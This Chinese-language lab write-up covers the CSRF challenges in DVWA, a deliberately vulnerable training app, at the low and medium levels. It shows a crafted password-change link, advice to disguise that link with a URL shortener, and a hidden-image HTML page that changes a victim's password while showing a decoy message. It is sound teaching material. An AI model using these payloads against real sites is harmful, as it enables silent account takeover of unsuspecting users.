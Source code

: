 ```yaml
---
title: DVWA之CSRF
date: 2019-3-19
tags: DVWA
categories: DVWA

---
```


- CSRF，全称Cross-site request forgery，就是跨站请求伪造，是指利用受害者尚未失效的身份认证信息（cookie、会话等），引导诱骗用户点击存在恶意代码的页面，在受害人不知情的情况下利用受害者的身份向服务器发送请求，从而完成非法操作。

- CSRF产生的本质原因：HTTP是无状态协议。前后两个请求无法相互标识，保持状态，各个请求之间是相互独立的。

**1. low 没有任何防御措施，可以直接进行攻击**

```
 if( isset( $_GET[ 'Change' ] ) ) {
    // Get input
    $pass_new  = $_GET[ 'password_new' ];
    $pass_conf = $_GET[ 'password_conf' ];

    // Do the passwords match? 
```
_从源代码可以看出，只检查了是否是GET请求_

**攻击方法：直接链接访问即可修改密码**

`http://127.0.0.1/DVWA-master/vulnerabilities/csrf/?password_new=admin1&password_conf=admin1&Change=Change#`

**如果觉得这样太明显可以百度`短链接生成器` ，从而将这个链接做成一个看不出意图的短链接**

**2. medium**
```
if( isset( $_GET[ 'Change' ] ) ) {
    // Checks to see where the request came from
    if( stripos( $_SERVER[ 'HTTP_REFERER' ] ,$_SERVER[ 'SERVER_NAME' ]) !== false ) {
        // Get input
        $pass_new  = $_GET[ 'password_new' ];
        $pass_conf = $_GET[ 'password_conf' ];

        // Do the passwords match? 
```
_从源代码可以看出检查了保留变量 HTTP_REFERER（http包头的Referer参数的值，表示来源地址）中是否含有SERVER-NAME（本地是127.0.0.1）
_

**攻击方法:绕过referer.通过burp测试出refere检查的是必须要来自127.0.0.1。所以构造这样一个html文件，放在和dvwa同一个服务器下，再诱使用户访问即可。**

```
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8">
    <title>CSRF</title>
</head>
<body>
<img src="http://127.0.0.1/dvwa/vulnerabilities/csrf/?password_new=1234567&password_conf=1234567&Change=Change#" border="0" style="display:none;"/>
<h1>Hello<h1>
<h2>Your password has been changed.<h2>
</body>
</html>
```
